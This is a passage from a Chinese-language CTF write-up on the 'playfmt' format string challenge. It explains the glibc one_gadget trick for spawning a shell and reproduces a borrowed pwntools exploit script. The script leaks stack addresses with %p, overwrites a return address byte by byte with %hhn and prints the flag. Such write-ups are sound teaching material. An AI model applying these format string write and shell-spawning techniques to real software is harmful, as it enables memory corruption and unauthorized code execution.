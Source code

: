 这里需要介绍一下**one_gadget**

**one-gadget** 是glibc里调用`execve('/bin/sh', NULL, NULL)`的一段非常有用的**gadge**t。在我们能够控制**ip**（也就是**pc**）的时候，用**one-gadge**t来做**RCE**（远程代码执行）非常方便，比如有时候我们能够做一个任意函数执行，但是做不到控制第一个参数，这样就没办法调用`system("sh")`，这个时候**one gadget**就可以搞定 

再次运行`write_address`将`0xfff566cc`写上`one_gadget`地址

最后输入`quit`退出循环，执行`return result`时就能获取shell

由于我没拿到题目的**libc**，也没法真正的去做题所以大概就是先了解一下，借用一下别人的EXP

官方EXP，里面有很多很方便值得学习的格式化字符串函数可以学习一下

```python
    from pwn import *
    # context.log_level = "debug"
    do_fmt_ebp_offset = 6
    play_ebp_offset = 14
    main_ebp_offset = 26
    def format_offset(format_str , offset):
        return format_str.replace("{}" , str(offset))
    def get_target_offset_value(offset , name):
        payload = format_offset("%{}$p\x00" , offset)
        p.sendline(payload)
        text = p.recv()
        try:
            value = int(text.split("\n")[0] , 16)
              print(name + " : " + hex(value))
            return value
        except Exception, e:
            print text
    def modify_last_byte(last_byte , offset):
        payload = "%" + str(last_byte) + "c" + format_offset("%{}$hhn" , offset)
        p.sendline(payload)
        p.recv()
    def modify(addr , value , ebp_offset , ebp_1_offset):
        addr_last_byte = addr & 0xff
        for i in range(4):
            now_value = (value >> i * 8) & 0xff
            modify_last_byte(addr_last_byte + i ,  ebp_offset)
            modify_last_byte(now_value , ebp_1_offset)
    p = process("./playfmt")
    elf = ELF("./playfmt")
    p.recvuntil("=\n")
    p.recvuntil("=\n")
    # leak ebp_1_addr then get ebp_addr
    play_ebp_addr = get_target_offset_value(do_fmt_ebp_offset,  "logo_ebp") 
    # get_ebp_addr
    main_ebp_addr = get_target_offset_value(do_fmt_ebp_offset,  "main_ebp")
    # flag_class_ptr_addr = main_ebp_addr + 0x10
    # flag_class_ptr_offset = main_ebp_offset - 4
    flag_class_ptr_offset = 19
    flag_addr = get_target_offset_value(flag_class_ptr_offset , "flag_addr") - 0x420
    log.info(hex(flag_addr))
    # puts_plt = elf.plt["puts"]
    modify(main_ebp_addr + 4 , flag_addr , do_fmt_ebp_offset , play_ebp_offset)
    # gdb.attach(p)
    payload = format_offset("%{}$s\x00" , play_ebp_offset + 1)
    p.send(payload)
    # log.info("flag_addr : " + hex(flag_addr))
    # p.sendline("quit")
    p.interactive()
```
